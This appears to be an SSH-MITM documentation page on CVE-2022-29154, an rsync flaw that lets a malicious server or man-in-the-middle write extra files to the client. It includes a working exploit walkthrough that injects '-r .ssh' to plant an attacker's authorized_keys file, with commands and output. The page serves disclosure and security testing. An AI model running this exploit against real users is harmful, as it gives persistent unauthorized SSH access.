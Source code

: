 CVE-2022-29154
==============

.. card::

    :bdg-warning:`CVSS N/A` NVD score not yet provided.
    ^^^
    An issue was discovered in rsync before 3.2.5 that allows malicious remote servers
    to write arbitrary files inside the directories of connecting peers.
    The server chooses which files/directories are sent to the client.
    However, the rsync client performs insufficient validation of file names.
    A malicious rsync server (or Man-in-The-Middle attacker) can overwrite arbitrary files in the
    rsync client target directory and subdirectories (for example, overwrite the .ssh/authorized_keys file).
    +++
    **Affected Software:**

    * rsync < 3.2.5

    :fas:`check;sd-text-success` integrated in `SSH-MITM <https://github.com/ssh-mitm/ssh-mitm/blob/master/sshmitm/plugins/scp/CVE202229154.py>`_

Description
-----------

rsync < 3.2.5 does not sufficiently check whether the received files match the requested files.
This can be exploited by a MitM attacker or a malicious server to slip false or additional files to the client.

There are several ways in which this vulnerability can be exploited.
In the simplest case, however, it is sufficient to modify the rsync command so that additional files are returned.

The easiest way to describe this vulnerability is to synchronize 1 file. As an example, the file "test.txt" in the user's home directory is synchronized.

.. note::

    SSH-MITM uses port 10022 by default, which is why the SSH command must be modified when using rsync.

    Also it is recommended to pass through the SSH agent so that there are no problems when using Publickey authentication.

.. code-block::

    rsync -e 'ssh -p 10022 -A' 'user@127.0.0.1:test.txt' .

As soon as rsync has connected to SSH-MITM, the command sent by rsync to the server is displayed:

.. code-block::

    rsync --server --sender -e.LsfxCIvu . test.txt

On the server the command `rsync` is then executed with the internal parameters `--server` and `--sender`.

.. note::

    The arguments to the `-e` parameter specify the functions that the client supports.
    In this case no subdirectories are synchronized.
    To synchronize also subdirectories the parameter `-r`` must be specified additionally at the server.
    This is normally passed from the client to the server. When synchronizing a single file, this parameter is normally not specified.
    Thus directories would be ignored by the server.


The command can be modified by a MitM attack or a malicious server. To do this, a call to the server-side rsync command only requires the parameters to be modified accordingly. The following command would synchronize the file "test.txt" as well as the directory ".ssh". By synchronizing the ".ssh" directory, it is possible to foist a manipulated ".ssh/authorized_keys" file on the client.

.. code-block::

    rsync --server --sender -e.LsfxCIvu . test.txt -r .ssh



Exploit
-------

On the destination server create a file called "test.txt" and a subfolder containing an authorized_keys file.

.. code-block::

    echo "testfile" > test.txt
    mkdir .ssh
    echo "PUBLIC_SSH_KEY" > .ssh/authorized_keys

Run the server and specify additional files to be requested. In this case the folder ".ssh" and the command line argument "-r" will be added to the remote rsync command.

.. code-block::

    ssh-mitm server --scp-interface CVE-2022-29154 --rsync-inject-file '-r .ssh'

Connect the client to the man in the middle server.

.. code-block::

    rsync -e 'ssh -p 10022 -A' 'user@SERVER:test.txt' .

If your rsync version is vulnerable you will reveive the file "test.txt" from the server and a folder ".ssh" containing an authorized_keys file.

.. code-block::

    $ tree -a
    .
    ├── .ssh
    │   └── authorized_keys
    └── test.txt

    1 directory, 2 files


Mitigation
----------

 When dealing with an untrusted sending host, it is safest to copy into a dedicated destination directory
 for the remote content (i.e. don't copy into a destination directory that contains files that aren't from
 the remote host unless you trust the remote host).

References:
-----------

 * https://download.samba.org/pub/rsync/NEWS#3.2.5
 * https://nvd.nist.gov/vuln/detail/CVE-2022-29154
 * https://www.openwall.com/lists/oss-security/2022/08/02/1
 * https://github.com/WayneD/rsync/commit/b7231c7d02cfb65d291af74ff66e7d8c507ee871
 * https://serverfault.com/a/1096808/611948